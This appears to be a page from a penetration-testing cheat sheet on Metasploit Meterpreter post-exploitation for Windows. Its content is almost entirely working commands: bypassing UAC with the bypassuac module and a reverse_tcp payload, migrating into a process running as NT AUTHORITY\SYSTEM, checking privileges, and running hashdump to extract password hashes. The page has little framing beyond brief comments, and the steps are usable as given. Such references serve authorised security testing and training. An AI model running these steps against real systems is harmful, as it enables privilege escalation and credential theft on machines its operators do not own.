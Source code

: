 ```yaml
---
layout: default
title: Meterpreter Post-Admin/Root
parent: Post-Admin/Root
---
```


# Meterpreter Post-Admin/Root
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## Bypass UAC
Uploads shell in context that is not restricted by UAC
```shell
background             # Background session
use exploit/windows/local/bypassuac
set SESSION <session>
set PAYLOAD <payload>  # e.g. windows/meterpreter/reverse_tcp
# Setup necessary payload parameters
run
```

## Migrating Processes
```shell
ps  # Note the PID of process that runs under NT AUTHORITY\SYSTEM
migrate <PID>
```

## Useful Commands
```shell
getprivs  # Check privileges; can be expanded via bypassuac
getuid    # Check user
hashdump  # Requires SYSTEM privileges
```
